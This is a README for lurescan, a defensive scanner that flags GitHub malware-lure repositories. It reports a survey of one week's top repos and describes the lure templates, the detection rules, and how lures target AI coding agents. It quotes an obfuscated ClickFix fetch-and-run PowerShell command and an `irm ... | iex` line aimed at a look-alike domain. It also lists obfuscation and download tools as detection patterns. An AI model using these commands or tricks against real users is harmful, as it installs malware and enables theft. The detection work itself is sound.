


# lurescan

**Most of GitHub's most-starred new repos this week are malware lures. lurescan tells you which ones, before you run anything.**

English · [简体中文](README.zh-CN.md)



On 23 November 2026 I pulled the 398 most-starred repositories created on GitHub in the previous
week. 373 of them were malware lures: fake "setup" pages for Adobe, Autodesk, FL Studio, MATLAB,
Cellebrite and the Claude desktop app, plus a "Blender MCP server". 372 were created on the same
day, and every one of those sat between 334 and 368 stars two days later. The most-starred lure,
the Blender MCP one, had 2,746 stars and is aimed at people looking for AI tools.

If you, or your coding agent, pick a repo because it has stars, this is what you are picking from.

```bash
python3 lurescan.py owner/repo
```

One file, Python 3.9+, standard library only, needs `git`. It clones the repo bare and shallow
into a temporary folder, reads the file names, the README, HTML pages, workflow files and the
last 60 commits, then deletes the clone. It never checks out a working tree and never runs
anything from the repository.



## Results

| Set | Repos | LURE | SUSPICIOUS | no known signs |
|---|---:|---:|---:|---:|
| Lures in this week's top 398 | 373 | 373 | 0 | 0 |
| Same lures, `--offline` (no star or owner data) | 373 | 372 | 1 | 0 |
| Real projects in the same top 398 | 21 | 0 | 0 | 21 |
| Control set: real repos picked to look lure-ish | 161 | 0 | 0 | 161 |

The other 4 of the 398 are big "native PC recompilation" repos for games that came out days
earlier. I could not tell whether they are real, so they are left out of both rows.

Be clear about what this measures. I wrote the rules while reading these lures, so the first row
is an in-sample result. The control set is the honest test. I picked repos that trip naive rules:
installers you pipe into a shell (uv, bun, Scoop, winutil, Microsoft Activation Scripts), Windows
apps with download buttons, README-only repos and closed-source issue trackers, git scrapers that
commit every hour, changesets' random-word file names, a staticrypt page, and the 50 most-starred
repos from September and October 2026. Five rules fired on a real repo during development, and I
narrowed each one:

- The backtick check matched a Markdown code fence (```` ```powershell ````). It now needs a
  backtick inside a word, like `` i`e`x ``.
- `.exe` counted as "sells a desktop program" (a README that mentions `curl.exe`). Removed.
- The setup-button check matched an image whose alt text said "Launch" and linked to a relative
  path. It now needs an absolute link and an image named like a button or download.
- lure-check's README explains obfuscated commands, so it scored as a lure. Obfuscation now
  counts 2 instead of 5 when the repo has real code.
- `star-burst` fired on `sindresorhus/awesome`, which averages 100 stars a day over 11 years. It
  now applies only to repos under 90 days old.

Every repo, label and verdict is in [`data/2026-11-23/`](data/2026-11-23/).

## The three templates

**ClickFix page (218 repos, names ending in `-win`).** A README for some paid Windows program
with a big image button that links to the owner's own `github.io` page. That page is dressed up
as GitHub. It tells you to press Win+R, type `cmd`, and paste a command it has already put on
your clipboard: `powershell -c "(irm '<url>')|&('i'+'e'+'x')"`. The `('i'+'e'+'x')` is `iex`
spelled so that a text search for `iex` misses it. Usually five commits, with author dates that
run backwards. No code.

**Cloaked page + fake commits (148 repos).** Same README button, but the landing page holds its
real content as an encoded blob split across hidden `<div>`s. A script reassembles it, decodes
it, XORs it with a key and injects the result as live scripts, so nothing readable sits in the
repo. A workflow with a random name (`.github/workflows/RBerAZirJwdLsk.yml`) runs on a schedule,
writes to a random-named file in `.github/` and commits with made-up messages like
`remove fix #9556`, so the repo always looks updated an hour ago.

**Decoy code (6 repos).** Game mods and unlock tools dressed up as projects: a Colab notebook, a
config file and, in half of them, a 26-line C++ stub with a `CMakeLists.txt`. The README's
download button is a release `.zip`, and a workflow commits a timestamp every six hours.

The Blender MCP lure is a fourth, simpler shape: a polished README, no code, and a download link
to a release binary.

## What it checks

| Finding | Weight | Meaning |
|---|---:|---|
| `clickfix-page` | 5 | A page tells the reader to press Win+R or Win+X and paste a command it copied |
| `obfuscated-command` | 5, or 2 with real code | `iex` built from pieces, backtick escapes, reversed strings, base64 into `iex` or a shell, `-enc`, `mshta`, `certutil -urlcache`, `bitsadmin`, hidden windows |
| `cloaked-page` | 5, or 2 with real code | A page decodes a hidden blob in the browser and injects it as scripts (password-protected staticrypt pages don't match) |
| `keepalive-commits` | 5, or 2 with real code | A scheduled job commits with random messages or to a random-named stamp file |
| `random-names` | 2 | Files under `.github/` named with random letters |
| `setup-button` | 2 | No code, and the README's main image button goes to the owner's github.io page or another site |
| `no-code-product` | 2 | The README sells a Windows program and there is no real code |
| `binary-only` | 2 | No real code, and the README's download is a release binary |
| `heartbeat-commits` | 2 | No real code, and a scheduled job commits the current time |
| `piracy-pitch` | 2 | Cracked, pre-activated, unlocked or cheat software |
| `star-burst` | 2 | Under 90 days old, 150+ stars at 40+ a day, no real code |
| `backdated-history` | 1 | Commits dated earlier than the commits they were made on top of |
| `fresh-owner` | 1 | The owner account was created within 14 days of the repo |

"No real code" means no source files, or at most three files with under 120 lines between them.
A score of 5 or more is **LURE**, 3–4 is **SUSPICIOUS**, anything lower is **no known lure
signs**. That last one is never worded as "safe".

`star-burst` and `fresh-owner` need the GitHub API (60 requests an hour without a token; set
`GITHUB_TOKEN` for more). Everything else comes from the clone.

## Use it from your coding agent

Agents are the obvious victims here. One that trusts star counts would rank this week's
2,746-star Blender MCP lure above every real project created that week. [`skills/lurescan/`](skills/lurescan/SKILL.md) is an Agent Skill that tells
the agent to check a repo before installing an MCP server, skill or plugin from it, before running
a README install line, and before recommending repos it found by searching.

```bash
# Claude Code
cp -r skills/lurescan ~/.claude/skills/
# Codex and other agents that read SKILL.md: copy the folder to that agent's skills directory
```

## Options

```text
python3 lurescan.py TARGET [TARGET ...]   owner/repo, a github.com URL, or a local path
  --list FILE    read more targets from FILE, one per line
  --json         one JSON object per target
  --strict       exit 1 for SUSPICIOUS too
  --offline      skip the GitHub API lookup
  --depth N      commits of history to read (default 60)
```

Exit codes: 0 no lure, 1 at least one lure, 2 at least one target could not be checked.

## What it does not catch

- Malicious code inside a real codebase: a poisoned dependency, a bad `postinstall`, a backdoor
  in a large project. lurescan reads the shape of a repo, not its code.
- New templates. These are fingerprints of what was live this week. Operators change templates;
  when they do, the rules need a new fixture and a new check.
- A plain install line pointing at a look-alike domain (`irm https://micros0ft.example | iex`)
  on a repo that is otherwise ordinary.

## Related tools

- [lure-check](https://github.com/Sanexxxx777/lure-check) flags obfuscated install lines in a
  README and throwaway owner accounts. It says it has no rule for download-button lures because
  its samples were deleted before it could measure them. That gap is the main reason lurescan
  exists.
- [RepoCanary](https://github.com/chriszemmel/repocanary) checks fake job-interview take-home
  repos for code that runs on install or when the folder is opened.
- [StarScout](https://github.com/hehao98/StarScout) finds fake stars across GitHub at scale.

## If you already ran something

Disconnect the machine from the network. Change important passwords from a different device and
turn on two-factor authentication. Then get help from your IT team or a professional before you
use that machine for anything sensitive again.

## Contributing

Found a lure lurescan misses, or a real repo it flags? Open an issue with the repo name. Please
don't paste payload URLs or commands; the repo name is enough. See
[CONTRIBUTING.md](CONTRIBUTING.md).

## License

[MIT](LICENSE)
